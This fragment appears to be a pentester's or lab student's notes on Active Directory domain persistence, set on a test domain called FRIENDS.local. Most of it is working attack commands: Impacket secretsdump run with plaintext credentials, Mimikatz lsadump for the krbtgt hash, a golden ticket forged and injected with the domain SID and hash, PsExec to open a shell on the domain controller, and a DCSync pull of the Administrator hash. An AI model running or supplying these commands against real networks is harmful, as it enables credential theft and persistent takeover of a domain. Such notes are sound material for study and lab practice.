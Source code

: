 ```
kerberos::list
service ticket inject
```

### DCOM

## DOMAIN PERSISTENCE TECHNIQUES

### GOLDEN TICKETS

> GETTING PASSWORD HASHES
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py 
FRIENDS.local/cbing:Password4@192.168.174.140
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5ff2e66766b112b2b9dee4f938d5c51f:::
```
> GOLDEN TICKETS CREATION

> + ACTIVITIES ON DOMAIN CONTROLLER 
```
whoami /user
friends\rgreen S-1-5-21-1344083314-2267945536-981813235-1111
```
```
privilege::debug
lsadump::lsa /patch
5ff2e66766b112b2b9dee4f938d5c51f
```

> + ACTIVITIES ON DOMAIN CLIENT 

```
mimikatz.exe
privilege::debug
kerberost::list
kerberos::purge
kerberos::golden /user:fakeuser /domain:FRIENDS.local /sid:S-1-5-21-1344083314-2267945536-981813235 /krbtgt:5ff2e66766b112b2b9dee4f938d5c51f /ptt
misc::cmd
PsExec64.exe \\FRIENDS-DC cmd.exe
```

### DOMAIN CONTROLLER SYNCHRONIZATION

> LOGIN DOMAIN MACHINE AS DOMAIN ADMIN USER
```
mimikatz.exe
privilege::debug
lsadump::dcsync /user:Administrator
```

+ domain fronting

+ domain hiding
